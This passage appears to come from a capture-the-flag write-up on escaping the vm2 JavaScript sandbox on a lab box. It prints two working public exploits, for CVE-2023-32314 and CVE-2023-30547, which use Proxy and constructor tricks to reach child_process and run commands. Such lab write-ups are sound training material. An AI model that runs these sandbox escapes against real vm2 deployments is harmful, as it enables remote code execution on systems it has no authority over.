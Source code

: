 Thinking about what the website is doing, it is handling the vm2 setup and calling the code. I’m only passing in what I want to be run. So when looking at these POCs, I’ll want to only copy the `code` variable value.

### Execution

There are four known CVEs that will work to get RCE here. One works completely as is, and the others take some small changes to show execution. I’ll show all four, though any one will work to get execution.

#### CVE-2023-32314

This CVE is the most straight-forward to exploit as testing it requires no modification at all. It escapes the sandbox using the `Proxy` object. This [page on Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100), or [this POC](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac) linked to from the Security tab give the same POC:

```
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }

```

The POC will run `echo hacked`, and on pasting it into Codify, it works:

![image-20240403200034171](https://0xdf.gitlab.io/img/image-20240403200034171.png)

#### CVE-2023-30547

The next most straight forward to exploit is [CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093), which has to do with raising an exception inside of `handleException()`. There is [POC code](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) linked to on the [GitHub security issue](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m) as well as a [POC on ExploitDB](https://www.exploit-db.com/exploits/51898) (which is incorrectly linked to on the [CVE-2023-37466 page on Snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5772825)).

The code part looks like:

```
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
```